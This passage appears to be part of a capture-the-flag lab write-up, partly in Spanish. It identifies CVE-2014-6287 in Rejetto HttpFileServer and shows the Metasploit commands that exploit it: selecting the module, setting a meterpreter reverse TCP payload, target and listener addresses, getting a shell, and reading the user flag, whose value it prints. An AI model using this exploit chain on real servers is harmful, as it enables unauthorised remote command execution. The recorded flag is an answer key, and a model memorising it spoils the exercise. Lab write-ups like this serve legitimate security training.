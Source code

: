 ```
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
What is the CVE number to exploit this file server? **2014-6287**

## 2. Explotar vulnerabilidad
```
msfconsole
```
```
msf6 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

```
```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > 
```
```
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.208.23
rhosts => 10.10.208.23
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost 10.8.153.49
lhost => 10.8.153.49
msf6 exploit
```
```
meterpreter> shell
```
```
type C:\Users\bill\Desktop\user.txt
```
Use Metasploit to get an initial shell. What is the user flag? **b04763b6fcf51fcd7c13abc7db4fd365**

## 3. Escalar privilegios
Acciones a realizar en la maquina atacante

